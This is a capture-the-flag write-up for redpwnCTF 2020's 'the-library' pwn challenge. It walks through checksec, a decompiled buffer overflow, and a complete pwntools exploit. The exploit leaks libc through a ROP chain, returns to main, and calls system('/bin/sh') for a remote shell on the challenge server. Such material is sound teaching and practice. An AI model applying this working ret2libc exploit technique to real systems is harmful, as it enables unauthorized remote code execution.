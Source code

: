 # redpwnCTF 2020

## pwn/the-library

> NotDeGhost
> 
> 424
>
> There's not a lot of useful functions in the binary itself. I wonder where you can get some...
> 
> `nc 2020.redpwnc.tf 31350`
>
> [`the-library.c`](the-library.c) [`libc.so.6`](libc.so.6)
[`the-library`](the-library)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

BOF -> ROP -> leak libc -> ret2main -> shell

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode on the stack, but that's about it for mitigations.  Easy read/write GOT, easy BOF, easy ROP.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  char local_18 [16];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to the library... What\'s your name?");
  read(0,local_18,0x100);
  puts("Hello there: ");
  puts(local_18);
  return 0;
}
```

I still disassemble/decompile even if source included for the following reasons:

1. Source can lie, it's true; at least two 2020 CTFs, the _source_ did not exactly match the binary behavior.  Probably older source, newer binary or vv.  OTOH, at times the remote binary is not the same as the downloaded binary, in that case, perhaps the source is correct.  Anyway, collect as much data as you can.
2. The compiler may interpret the source differently than your head.  This is especially true with stack offsets.
3. I've developed a consistent workflow, _checksec_ -> _Ghidra_ -> _explore a bit_ -> _think about it..._.  I've gotten used to looking at binaries with Ghidra and while source code can vary widely, Ghidra normalizes this somewhat, at least for me, unless Go, Rust, etc... binaries, then it's back to basics, _strings_ -> _objdump_ -> _testing_ -> _googling_ -> _panic_ :-) (Actually Go is doable, you get used to it, Rust is a completely different animal--this is a good thing).
4. I've become very dependent on the Ghidra stack diagrams, esp. for BOF.  Above, I know that the input buffer `local_18` is exactly `0x18` from the return address in the stack.  I also know if there are other variables where they are relative to each other so I can overflow just enough or avoid a canary, etc...

_Moving on..._

This is a simple BOF task, the input buffer is `0x18` bytes from the return address in the stack, and `read` will take up to `0x100` (256) bytes supporting a rather large ROP chain.

There's only one pass, and since ASLR will still obfuscate the location of libc, we'll have to leak that first and then jump back up to main.  With libc location known, we can get a shell.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./the-library')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc.so.6')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31350)
```

Initial setup and find a `pop rdi` gadget from the binary.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendlineafter('name?',payload)

_ = p.recvuntil('Welcome').split(b'Welcome')[0].strip()[-6:]
puts = u64(_ + b'\x00\x00')
baselibc = puts - libc.symbols['puts']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

First pass.  Just overflow the buffer with `0x18` bytes, then using `puts` from the GOT, have it leak it's address, then jump back to `main` for a second pass.

With the `puts` address known and the version of libc provided, computing the base of libc is trivial.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])

p.sendlineafter('name?',payload)

p.interactive()
```

Final pass.  Again overflow the buffer with `0x18` bytes, but this time call `system` from libc.

> The `p64(pop_rdi + 1)` is actually `ret` (`pop rdi` is 2 bytes, the 2nd is `ret`).  This fixes a stack alignment problem that would otherwise segfault `system`.  Most of the time it is needed, but not always, and in one recent case, `execve` had to be used instead.  See [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) more info as well as links if you want a deeper understanding (it's long, search for _alignment_).

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/the-library/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/redpwnctf2020/the-library/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2020/the-library/the-library'
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
baselibc 0x7f10b1c0a000
[*] Switching to interactive mode

Hello there:
AAAAAAAAAAAAAAAAAAAAAAAA4\x07
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
```
